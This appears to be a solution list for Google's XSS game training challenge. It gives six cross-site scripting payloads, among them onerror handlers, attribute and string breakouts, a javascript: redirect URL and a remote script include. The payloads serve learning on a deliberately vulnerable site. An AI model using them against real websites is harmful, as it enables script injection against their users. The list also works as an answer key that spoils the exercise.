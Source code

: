 https://xss-game.appspot.com

1. `<img src=x onerror=alert(1)>`
2. `<img src=x onerror=alert(1)>`
3. `#' onerror=alert(1)>//`
4. `'); alert('XSS`
5. `/signup?next=javascript:alert(1);`
6. `#/httPs://abhaynayar.com/xss.js`

